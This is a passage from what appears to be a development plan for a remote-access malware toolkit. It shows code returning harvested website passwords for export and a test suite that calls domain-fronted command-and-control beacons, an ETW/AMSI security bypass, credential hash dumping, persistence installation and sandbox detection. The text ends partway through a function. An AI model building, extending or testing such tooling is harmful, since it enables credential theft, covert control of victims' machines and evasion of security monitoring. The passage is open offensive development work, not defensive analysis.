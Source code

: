 ```python
        return {
            'type': 'secure_table',
            'columns': ['URL', 'Username', 'Password'],
            'data': result.get('passwords', []),
            'masked': True,  # Mask passwords initially
            'exportable': True,
            'export_format': 'json'
        }
```

---

## PHASE 5: TESTING & OPTIMIZATION (Weeks 10-11)

### 5.1 Testing Framework

**File:** Create `Tests/elite_test_suite.py`

```python
import unittest
import sys
import os

class EliteCommandTests(unittest.TestCase):
    """Test suite for all elite command implementations"""
    
    def setUp(self):
        """Initialize test environment"""
        self.executor = EliteCommandExecutor()
    
    def test_connection_domain_fronting(self):
        """Test domain fronting connection"""
        c2 = EliteDomainFrontedC2()
        result = c2.connect({"type": "beacon", "id": "test"})
        self.assertIsNotNone(result)
    
    def test_security_bypass(self):
        """Test ETW/AMSI bypass"""
        bypass = SecurityBypass()
        with bypass.patch_all():
            # Try to execute something that would normally trigger
            import subprocess
            result = subprocess.run('powershell -c "Test"', capture_output=True)
            self.assertEqual(result.returncode, 0)
    
    def test_elite_hashdump(self):
        """Test credential extraction"""
        result = elite_hashdump()
        self.assertIn('hashes', result)
    
    def test_persistence_methods(self):
        """Test persistence installation"""
        result = elite_persistence()
        self.assertGreater(len(result['installed']), 0)
    
    def test_anti_detection(self):
        """Test VM/sandbox detection"""
        result = elite_vmscan()
        self.assertIn('is_vm', result)

def run_tests():
    """Run complete test suite"""
    
```